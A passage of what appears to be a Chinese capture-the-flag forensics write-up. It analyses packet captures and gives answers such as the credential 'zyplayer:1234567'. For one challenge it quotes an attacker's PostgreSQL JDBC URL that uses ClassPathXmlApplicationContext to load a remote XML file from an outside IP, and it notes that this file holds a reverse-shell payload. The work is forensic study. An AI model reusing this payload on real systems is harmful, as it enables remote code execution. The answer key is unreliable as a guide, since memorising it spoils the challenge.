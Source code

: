 [![](assets/1702520939-baff7f66fa596a94cc9db5578560f054.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213174859-d6bc30e8-999c-1.png)  
[![](assets/1702520939-2bb79fbb3064be1f235e85395a71974f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213174943-f15b88a4-999c-1.png)  
所以这道题的答案就是**zyplayer:1234567**

### tcpdump\_4

> 题目内容：攻击者又使用了CVE漏洞攻击应用，执行系统命令，请给出此CVE编号以及远程EXP的文件名，使用:拼接，比如CVE-2020-19817:exp.so

可以看下这个POST的数据是`jdbc:postgresql://127.0.0.1:5432/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://116.62.63.234:9988/custom.dtd.xml`  
[![](assets/1702520939-de78d9b6cb0634c4ed2b81481b6c013f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213175001-fc1ebe0a-999c-1.png)  
因为`116.62.63.234`就是之前恶意mysql服务端的IP，这个`custim.dtd.xml`的内容里面有个反弹shell的payload  